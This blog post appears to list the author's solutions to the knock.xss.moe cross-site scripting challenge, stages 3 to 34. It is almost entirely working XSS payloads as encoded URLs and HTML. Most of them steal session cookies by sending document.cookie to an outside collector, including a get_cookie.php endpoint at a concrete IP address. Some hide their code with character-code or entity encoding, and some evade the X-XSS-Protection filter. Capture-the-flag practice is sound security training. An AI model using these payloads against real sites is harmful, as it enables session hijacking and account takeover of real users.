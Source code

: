 ```yaml
---
layout : post
title : knock.xss.moe
---
```

All solution
Ranking #41
{% highlight python linenos %}
stage3:
http://68e3b596ebf790e8a781b8d87b84af7eb7b0aeb3.knock.xss.moe/?q=%22%3E%3Cscript%20language%3D%22JavaScript%22%3Edocument.location%3D%27http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%3D%27%2bdocument.cookie%3B%3C%2fscript%3E

stage5:
</textarea><script>alert('xxx')</script>

stage6:
</xmp><script>alert('xxx')</script>

stage7:
```javascript
http://8005f6694d2862438bad3715436522e27dbd81a4.knock.xss.moe/?q=%22%20onfocus%3D%22%20location.href%3D%27http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%27%2bdocument.cookie%22%20autofocus%3D%22
```
stage8

stage9:
http://e461f5f6c542ae79ccc144093c63d0b074e591cd.knock.xss.moe/?q=%00%00%20autofocus%20onfocus%3Dlocation.href%3D%27http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%27%2bdocument.cookie


stage10:
http://811fbf0db9c40565743a37c2978f812b82eb89a6.knock.xss.moe/?q=javascript:document.location.href='http://xxx/get_cookie.php?cookie'+document.cookie

stage11:
<iframe src="XSS"></iframe>
http://38e585f94f9d1f6bb79e88b74f3a5b5871d5bb84.knock.xss.moe/?q=javascript%3Adocument.location.href%3D%22http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%22%2bdocument.cookie%3B

stage12:

javascript:window.open(`http://xxxx/?x=`+document.cookie)


stage13:
<script language=javascript>eval(String.fromCharCode(100, 111, 99, 117, 109, 101, 110, 116, 46, 108, 111, 99, 97, 116, 105, 111, 110, 46, 104, 114, 101, 102, 61, 39, 104, 116, 116, 112, 58, 47, 47, 103, 111, 111, 103, 108, 101, 46, 99, 111, 109, 39 ))</script>


stage 14:
http://8293927d3c84ed42eef26dd9ceaaa3d9bf448dda.knock.xss.moe/?document.domain=%22knock.xss.moe%22;eval(String.fromCharCode(119,%20105,%20110,%20100,%20111,%20119,%2046,%20111,%20112,%20101,%20110,%2040,%2034,%20104,%20116,%20116,%20112,%2058,%2047,%2047,%2049,%2049,%2056,%2046,%2054,%2057,%2046,%2049,%2051,%2053,%2046,%2049,%2054,%2051,%2047,%20103,%20101,%20116,%2095,%2099,%20111,%20111,%20107,%20105,%20101,%2046,%20112,%20104,%20112,%2063,%2099,%20111,%20111,%20107,%20105,%20101,%2061,%2034,%2043,%20112,%2097,%20114,%20101,%20110,%20116,%2046,%20100,%20111,%2099,%20117,%20109,%20101,%20110,%20116,%2046,%2099,%20111,%20111,%20107,%20105,%20101,%2041))

stage 15:
http://e3bcee011cad77ba066ca7c2ad2884372aec9566.knock.xss.moe/?q=%3Cimg%20src%3D1%20onerror%3Dwindow.location.href%3D%27http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%27%2bdocument.cookie%3B%3E


stage 17:
http://34a131df991487bf58d3df0a85e247d396fb93a0.knock.xss.moe/?q=javascript%3Alocation.href%3D%22http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%3D%22%2bdocument.cookie


stage 19:
<body onload="alert('XXX, &#039; ,0,window.open(&#039;http://xxx/get_cookie.php?cookie&#039; document.cookie));"//')">
http://224d0c5677307d743ba90c8f81e42f5be648cd97.knock.xss.moe/?q=1%27%2C0%2Cwindow.open%28%27http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%27%2bdocument.cookie%29%29%3B%2f%2f


stage 21:
X-XSS-Protection:1; mode=block
http://49ab9ff165cd76ffe06af0b72f450c82f35db396.knock.xss.moe/?q=%3CscripT%3Edocument.locascripttion.href%3D%27http%3A%2f%2f118.69.135.163%2fget_cookie.php%3Fcookie%27%2bdocument.cookie%3C%2fsCripT%3E


stage 22:
http://bcd699e871d46c191f3c43a7197c18440b308507.knock.xss.moe/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f1984268195%2f%3Fx%3D%22%2bdocument.cookie%29%3E


Local file:
<script>
window.name = "location.href='http://xxxx/?'+document.cookie";
location.href = "http://target.knock.xss.moe/?q=%3Csvg/onload=eval(name)%3E";
</script>

stage 23 & 24:
http://51b123fbd6a21b3cf43f49e0a1014221e191c7db.knock.xss.moe/?q=<svg/onload=window.open("//118.69.135.163")>

stage 25:
http://8e67e39d7e01213d5551c696ef8641b625cc8dd7.knock.xss.moe/?q=%3Ciframe%20src%3D%27%2f%2f118.69.135.163%27%3E

stage 26:
http://89078a2f1f0b7d9f210b1876f4b20ada0a090ebb.knock.xss.moe/?q=%3CIMG%20SRC%3D1%20onerror%3D%26%23119%3B%26%23105%3B%26%23110%3B%26%23100%3B%26%23111%3B%26%23119%3B%26%2346%3B%26%23111%3B%26%23112%3B%26%23101%3B%26%23110%3B%26%2340%3B%26%2334%3B%26%2347%3B%26%2347%3B%26%2349%3B%26%2349%3B%26%2356%3B%26%2346%3B%26%2354%3B%26%2357%3B%26%2346%3B%26%2349%3B%26%2351%3B%26%2353%3B%26%2346%3B%26%2349%3B%26%2354%3B%26%2351%3B%26%2347%3B%26%23103%3B%26%23101%3B%26%23116%3B%26%2395%3B%26%2399%3B%26%23111%3B%26%23111%3B%26%23107%3B%26%23105%3B%26%23101%3B%26%2346%3B%26%23112%3B%26%23104%3B%26%23112%3B%26%2363%3B%26%2399%3B%26%23111%3B%26%23111%3B%26%23107%3B%26%23105%3B%26%23101%3B%26%2334%3B%26%2343%3B%26%23100%3B%26%23111%3B%26%2399%3B%26%23117%3B%26%23109%3B%26%23101%3B%26%23110%3B%26%23116%3B%26%2346%3B%26%2399%3B%26%23111%3B%26%23111%3B%26%23107%3B%26%23105%3B%26%23101%3B%26%2341%3B%3E



stage 27:
http://295a1d900c5bf618101abf69083622d0f69aded1.knock.xss.moe/?q=%3Cimg%20src%3Dx%20onerror%3Dwindow%5B%27location%27%5D%3D%22http%3A%2f%2f%2f1984268195%2f%3F%22%2bdocument%5B%27cookie%27%5D%3

stage 28:
http://02f6f47ddaa7b22137a74843f2c4f1ac915dda3b.knock.xss.moe/?q=%3Cimg%20src%3Dx%20onerror%3Dwindow%5B%60location%60%5D%3D%60http%3A%2f%2f%2f1984268195%2f%3F%60%2bdocument%5B%60cookie%60%5D%3E

stage 29:
http://a4bf8393a4159b94aa4b84e9a134d5e6140f3c34.knock.xss.moe/?q=window%5B%60location%60%5D%3D%60http%3A%2f%2f%2f1984268195%2f%3F%60%2bdocument%5B%60cookie%60%5D


stage 30:

http://ebf510ac2d79576cd5b7d45412eaf3eed1781bd0.knock.xss.moe/?q=window%5B%60location%60%5D%3D%60http%3A%2f%2f%2f1984268195%2f%3F%60%2bdocument%5B%60cookie%60%5D

stage 31:
http://bb84607f02113a22396438c9a67e4c5abdfd6561.knock.xss.moe/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f118.69.135.163%2fget_cookie.php%3F%22%2bdocument.cookie%29

stage 32:
http://859c559a54a1e9b761f8dae102af5edb2ab44215.knock.xss.moe/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f118.69.135.163%2fget_cookie.php%3F%22%2bdocument.cookie%29

stage 33:
http://b236561a32729676d1ec2231e8726a0b5ee5bf57.knock.xss.moe/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f118.69.135.163%2fget_cookie.php%3F%22%2bdocument.cookie%29

stage 34:
http://[stage34]/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f118.69.135.163%2fget_cookie.php%3F%22%2bdocument.cookie%29

{% endhighlight %}

Thanks @ml and @tsu for sharing!
